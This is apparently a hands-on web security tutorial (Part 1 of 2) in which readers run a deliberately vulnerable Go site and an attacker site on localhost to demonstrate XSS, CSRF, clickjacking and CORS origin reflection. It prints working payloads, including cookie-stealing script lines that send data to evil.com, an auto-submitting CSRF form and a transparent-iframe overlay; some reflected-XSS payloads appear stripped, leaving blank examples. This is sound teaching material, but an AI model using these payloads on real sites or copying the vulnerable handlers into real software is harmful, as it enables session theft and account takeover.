




# Web Security Workshop (Part 1 - Attacks): XSS, CSRF, Clickjacking, and CORS

> **⏱️ Estimated Time**: Approx. 60 minutes
> **🎯 Level**: Intermediate
> **💻 Environment**: Linux / macOS (Go 1.26+, a browser)
>
> > **⚠️ Part 1 of 2**: This part experiences the attacks. Applying each countermeasure to the victim application and verifying that the attacks stop is covered in [Web Security Workshop (Part 2 - Defense)](web_security_defense_en.md).

## Purpose

In this workshop (Part 1), you will learn the mechanisms of common Web application vulnerabilities: XSS (Cross-Site Scripting), CSRF (Cross-Site Request Forgery), Clickjacking, and CORS (Cross-Origin Resource Sharing) misconfigurations. You will use an intentionally vulnerable application to experience how each attack actually works, and recognize the vulnerable code patterns that make them possible.

## Goals

- Understand the mechanisms of XSS (Stored/Reflected) and verify JavaScript execution.
- Understand the mechanism of CSRF and verify how unauthorized requests are sent on behalf of an authenticated user.
- Understand the mechanism of Clickjacking and verify visual deception techniques using iframes.
- Understand the mechanism of data leakage due to CORS misconfigurations and verify the importance of proper origin control.
- Recognize the vulnerable code patterns in `victim/main.go` that enable each attack.

## Prerequisites

- [ ] Go 1.26+ installed (`go version`)
- [ ] A browser with DevTools (Chrome / Firefox / Edge)
- [ ] Two terminal windows

---

## Actors and Attack Flows

### XSS (Cross-Site Scripting)

An attacker embeds a malicious script into a web page and executes it in other users' browsers.



### CSRF (Cross-Site Request Forgery)

Tricks an authenticated user into sending an unintended request (like changing a password or email address) to a vulnerable site.



### Clickjacking

Uses a transparent iframe to make the user click a button different from the one they intended.



### Cross-Origin Data Leakage (CORS Misconfiguration)

A vulnerability where an attacker can obtain a user's sensitive data due to CORS misconfigurations (specifically Origin Reflection).



**Why does the attack succeed?**

CORS does not control "whether to send a request", but rather the browser controls "whether to allow JavaScript to read the response returned from the server".

1. **Automatic sending of Cookies (Browser spec independent of CORS)**: Browsers automatically attach and send cookies stored for the request-destination domain (`localhost:8080`), even if the request is from an attacker's site.
2. **Authentication establishment**: The server verifies the arrived Cookie, authenticates the user, and includes sensitive data in the response.
3. **Abuse of CORS misconfiguration**:
   - **Origin Reflection**: Since the server returns the `Origin` header from the request as-is, the browser falsely recognizes the access from the attack site as "allowed".
   - **Access-Control-Allow-Credentials: true**: Because this is set, the browser determines that "it is safe to pass the authenticated response to the attacker's JavaScript" and allows reading the response.

In other words, **CORS misconfiguration is a state where the "breakwater for preventing others from stealing and viewing sensitive information obtained through Cookies that were sent anyway" has been broken by oneself.**

---

## Anti-patterns and Solutions

| Vulnerability      | ❌ Dangerous Implementation                           | ✅ Secure Countermeasure                       |
| :----------------- | :---------------------------------------------------- | :--------------------------------------------- |
| **XSS**            | Output user input as-is in HTML without escaping      | Escape output appropriately, set CSP           |
| **CSRF**           | Rely solely on Cookies for authentication             | Use CSRF tokens, set SameSite attribute        |
| **Clickjacking**   | Allow iframe embedding from external sites            | Set `X-Frame-Options` or CSP `frame-ancestors` |
| **CORS Misconfig** | Origin Reflection (returning the Origin header as-is) | Allow only specific origins from an allowlist  |

How to apply each countermeasure (and verify it against these very attacks) is the topic of [Part 2 - Defense](web_security_defense_en.md).

---

## Architecture

In this workshop, two Go applications run on different ports. The "Victim Site" and "Attacker Site" have different origins, allowing for a realistic demonstration of CSRF and CORS attacks.

### Directory Structure

```text
infra/assets/web_security/
├── victim/
│   ├── main.go         # Victim Site (port 8080)
│   └── go.mod
└── attacker/
    ├── main.go         # Attacker Site (port 8081)
    └── go.mod
```

---

## Preparation

### 1. Start the Applications

Open two terminals and start each server.

```bash
# Terminal 1: Victim Site
cd infra/assets/web_security/victim
go run main.go
# Expected output:
# 20xx/... INFO victim site starting addr=:8080

# Terminal 2: Attacker Site
cd infra/assets/web_security/attacker
go run main.go
# Expected output:
# 20xx/... INFO attacker site starting addr=:8081
```

### 2. Verification

Access `http://localhost:8080` in your browser.

---

## Workshop Steps

### STEP 1: Stored XSS - Script Storage and Execution

Save a script in a board-like function and verify it executes every time the page is opened.

**Instructions:**

1. Navigate to the `Stored XSS Demo` page.
2. First, click the `Login` button to set the session Cookie.
3. Enter the following script into the input field and submit:

   ```html
   <script>
     alert("XSS: your cookie: " + document.cookie);
   </script>
   ```

4. Verify that the page reloads and the alert displays the Cookie value.
5. Refresh the page and verify that the alert is displayed again (because it is saved in the database).

**What is happening?**

```text
User Input: <script>alert(...)</script>
          ↓ (Saved without escaping)
Database:   <script>alert(...)</script>
          ↓ (Output directly to HTML)
Browser:    Recognized as <script> tag → JavaScript executed

Real-world attack script:
  new Image().src="https://evil.com/steal?c="+document.cookie

  → Cookie is sent to the attacker's server.
  → Why use an Image object? It has fewer restrictions than fetch/XMLHttpRequest
    and can send data externally just by requesting a URL.
```

**Vulnerable Code (victim/main.go:93-96):**

```go
for _, c := range comments {
    // ❌ Vulnerability: Output user input directly without escaping
    fmt.Fprintf(w, "<li>%s</li>", c)
}
```

**Attack Variations:**

- `<script>document.location='http://evil.com?c='+document.cookie;</script>` → Cookie theft (noticeable as it redirects)
- `<script>new Image().src="https://evil.com/steal?c="+document.cookie;</script>` → Cookie theft (less noticeable)
- `<script>window.top.location='http://fake-bank.com';</script>` → Redirection to a phishing site

---

### STEP 2: Reflected XSS - Attack via URL

Verify that a script contained in URL parameters is reflected directly on the page.

**Instructions:**

1. Navigate to the `Reflected XSS Demo` page.
2. Access the URL with a script appended to the end:

   ```text
   http://localhost:8080/xss/reflected?q=
   ```

   _Note: Many modern browsers automatically block `<script>` tags in Reflected XSS. Using `` often bypasses these filters._

**What is happening?**

```text
URL Parameter: q=
            ↓ (Embedded in HTML without escaping)
HTML Output:   <p>0 results found for "".</p>
            ↓ (Interpreted as HTML by browser)
            →  fails to load src=x
            → onerror event handler executes → JavaScript runs

*Note: While <script> tags might be blocked by browser XSS filters,
        can often bypass them.
```

**Vulnerable Code (victim/main.go:100-105):**

```go
func reflectedXSSHandler(w http.ResponseWriter, r *http.Request) {
    q := r.URL.Query().Get("q")
    // ❌ Vulnerability: Embed query parameter directly into HTML
    fmt.Fprintf(w, "<h1>Search Results</h1><p>0 results found for \"%s\".</p>", q)
}
```

**Attack Flow (Example: Phishing Email):**

```text
Attacker-crafted URL:
http://victim-site.com/search?q=

↓ User clicks link in an email

Victim's Cookie is sent to the attacker's site
```

---

### STEP 3: CSRF (Cross-Site Request Forgery) - Impersonating Authenticated Users

Tricks an authenticated user into sending an unintended request.

**Instructions:**

1. Click `Login` to set the session Cookie.
   - Verify that `session_id` is set in DevTools → Application → Cookies.
2. Return to the `Victim Site` top page and confirm the current email is `victim@example.com`.
3. Click the `CSRF Attack Page (port 8081)` link to go to the attacker's site (different origin: localhost:8081).
4. Click the "Claim Prize" button on the attacker's site.
5. Return to the top page of the victim site and verify that the email address has been changed to `hacker@evil.com`.

**What is happening?**

```text
[Attacker Site HTML]
<form action="http://localhost:8080/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="submit" value="Claim Prize">
</form>

↓ User clicks the button

Browser automatically attaches the Cookie:
POST /update-email HTTP/1.1
Host: localhost:8080
Cookie: session_id=secret-session-123  ← Automatically attached!
Content-Type: application/x-www-form-urlencoded

email=hacker@evil.com

↓ Server-side processing

"Authentication" via Cookie succeeds → Email address is changed
```

**Why does the attack succeed?**

1. **Browser Cookie Specification**: A cookie is attached based on its domain — the port plays no role. The attacker page (`localhost:8081`) and the victim (`localhost:8080`) sit on the _same site_, so the session cookie is attached automatically.
2. **Absence of SameSite Attribute**: The demo sets no `SameSite` attribute, so the cookie is sent on requests from other sites as well. (Note: `SameSite=Lax` would **not** stop this particular attack — both pages are on the same site `localhost`. [Part 2](web_security_defense_en.md) shows this by re-running the attack from a genuinely cross-site origin.)
3. **Missing CSRF Token**: There is no mechanism to verify that the request was truly intended by the user — this is the missing defense that actually stops the attack.

**Auto-submission Version (Using JavaScript):**

```html
<!-- Automatically submits on page load -->
<body onload="document.forms[0].submit()">
  <form action="http://victim.com/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com" />
  </form>
</body>
```

---

### STEP 4: Clickjacking - Operation Hijacking via Transparent iframes

Uses a transparent iframe to make the user click a button different from the one they intended.

**Instructions:**

1. Click `Clickjacking Attack Page` under `Attacker Site (port 8081)`.
2. A "Free Donuts Giveaway!" page is displayed.
3. Notice the faintly visible "Follow @hacker" page from the victim site behind the "GET DONUTS" button (semi-transparent for demonstration).
4. When you click "GET DONUTS", you are actually clicking the hidden "Follow" button.
5. You end up following @hacker without intending to.

**What is happening?**

```css
/* Attacker Site CSS */
#victim-frame {
  position: absolute; /* Absolute positioning */
  top: 0;
  left: 0;
  opacity: 0.4; /* In a real attack, this would be 0.0 (fully transparent) */
  z-index: 2; /* Placed in front of the background */
}

#fake-page {
  position: absolute;
  z-index: 1; /* Background layer */
  /* "Free Donut" fake page */
}
```

```text
┌─────────────────────────────────────┐
│    [Attacker Fake Page - z-index: 1]│
│  🍩 Free Donuts Available!          │
│                                     │
│     ┌───────────────────────────┐   │
│     │ [Victim Site iframe]      │   │
│     │ z-index: 2 (Foreground)   │   │
│     │ Follow @hacker            │   │
│     │ [Follow] Button           │   │ ← Transparent/Semi-transparent
│     └───────────────────────────┘   │
│                                     │
│         [GET DONUTS] Button         │ ← Fake button
│         (Actually above iframe's)   │
└─────────────────────────────────────┘
```

**Vulnerable Code (victim/main.go:137-157):**

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ Vulnerability: Missing X-Frame-Options header
    // This allows the page to be displayed within an iframe on other sites

    fmt.Fprintf(w, `
        <h1>Follow @hacker</h1>
        <button>Follow</button>
    `)
}
```

**Button Alignment:**

```javascript
// Attackers identify the position of the victim's button and adjust the fake button
// .fake-btn { margin-top: 105px } → Matches the position of the victim's button
```

---

### STEP 5: CORS Misconfiguration (Cross-Origin Data Leakage) - Data Theft from Other Sites

If an API performs Origin Reflection (returning the request's Origin header as-is), an attacker site can send requests with Cookies and obtain the user's sensitive data.

**Instructions:**

1. Navigate to the Victim Site (port 8080) and click `Login` to set the session Cookie.
2. Click the `CORS Attack Page (port 8081)` link.
3. Click the "Verify Account" button.
4. Verify that the name, email, and API key are stolen from `/api/profile` of the victim site and displayed on the screen.

**What is happening?**

```text
[Attacker Site JavaScript]
fetch('http://localhost:8080/api/profile', {credentials: 'include'})
  .then(r => r.json())
  .then(data => { /* Display data */ })

↓ Browser sends Preflight request

OPTIONS /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081

↓ Victim Server response (❌ Vulnerability: Origin Reflection)

HTTP/1.1 204 No Content
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection!
Access-Control-Allow-Credentials: true

↓ Browser sends actual request

GET /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081
Cookie: session_id=secret-session-123  ← Sent because credentials: 'include'!

↓ Victim Server response

HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection
Access-Control-Allow-Credentials: true
Content-Type: application/json

{"name":"Alice Victim","email":"victim@example.com","secret":"my-secret-api-key-abc123"}

↓ Browser CORS check

Origin matches → Allowed
→ Attacker site's JavaScript can read the response!
```

**Vulnerable Code (victim/main.go:159-188):**

```go
func profileHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ Vulnerability: Origin Reflection (trusts any origin)
    origin := r.Header.Get("Origin")
    if origin != "" {
        w.Header().Set("Access-Control-Allow-Origin", origin)
        w.Header().Set("Access-Control-Allow-Credentials", "true")
    }

    // Returns authenticated user's sensitive data
    json.NewEncoder(w).Encode(profile)
}
```

**Why does the attack succeed?**

1. **User is logged in**: The Cookie is stored in the browser.
2. **Origin Reflection**: The server returns the Origin header without validation, allowing any origin.
3. **Credentials Allowed**: `Access-Control-Allow-Credentials: true` permits sending Cookies.
4. **Preflight Pass**: The same reflection occurs for OPTIONS requests.

**In a real attack:**

```text
The attacker sends stolen data to their own server:
new Image().src='https://evil.com/collect?d='+JSON.stringify(data)
```

**Comparison: `Access-Control-Allow-Origin: *` vs `Origin Reflection`**

| Feature                  | ACAO: \*                           | Origin Reflection                                       |
| :----------------------- | :--------------------------------- | :------------------------------------------------------ |
| **Allowed Target**       | Everyone                           | Everyone (granted individually)                         |
| **Credentials (Cookie)** | Not allowed                        | Allowed (Extremely Dangerous)                           |
| **Primary Use Case**     | Public APIs, static files          | Debugging during development (Don't use in production!) |
| **Security**             | Relatively safe (public data only) | Vulnerability (source of data leaks)                    |

---

## Comprehension Check

### Quiz

1. **What is the difference between Stored XSS and Reflected XSS?**
   - <details><summary>Answer</summary>Stored XSS saves the attack code on the server, executing it whenever the page is viewed. Reflected XSS is executed immediately via URL parameters and is not saved on the server.</details>

2. **Why are Cookies sent during a CSRF attack?**
   - <details><summary>Answer</summary>Cookies are attached based on their domain, and the port does not count: the attacker page (port 8081) and the victim (port 8080) are on the same site, so the cookie is attached. Without the SameSite attribute, cookies are also sent on requests from other sites.</details>

3. **In the CORS attack (STEP 5), why could the attacker's JavaScript read the profile data even though browsers enforce a same-origin policy?**
   - <details><summary>Answer</summary>The victim server performed Origin Reflection: it echoed the request's Origin header back as Access-Control-Allow-Origin, together with Access-Control-Allow-Credentials: true. The browser therefore treated the attacker's origin as explicitly allowed and handed the authenticated response to the attacker's JavaScript.</details>

---

## What you learned

- **XSS**: unescaped output lets attacker JavaScript run in your origin — you watched a stored `<script>` fire on every page view and a reflected `` fire straight from a URL.
- **CSRF**: the browser auto-attaches cookies, so a plain form on another origin changed the victim's email as the logged-in user.
- **Clickjacking**: without framing protections, your page can be layered under a transparent iframe and its buttons click-stolen.
- **CORS misconfiguration**: Origin Reflection plus credentials turns the browser's same-origin protection into an open door for data theft.

**Next**: apply and verify the countermeasures — escaping, CSP, cookie flags, CSRF tokens, framing headers, and a CORS allowlist — in [Web Security Workshop (Part 2 - Defense)](web_security_defense_en.md).

## Cleanup

Press `Ctrl+C` in each terminal to stop the servers.

---

## Troubleshooting

### Q: No alert is displayed

**A:** Your browser's XSS Auditor or similar features might be blocking the attack. Check the Console for errors.

### Q: Email address is not changed after a CSRF attack

**A:** Ensure you have logged in and the session Cookie is set. Check the form action URL on the attacker site.

### Q: Clickjacking iframe is not displayed

**A:** Ensure both Victim and Attacker sites are running. Check if the browser's iframe blocking features are active.

---

## References

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [IPA: How to build secure websites (Japanese)](https://www.ipa.go.jp/security/vuln/websecurity.html)
- [MDN: Cross-Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
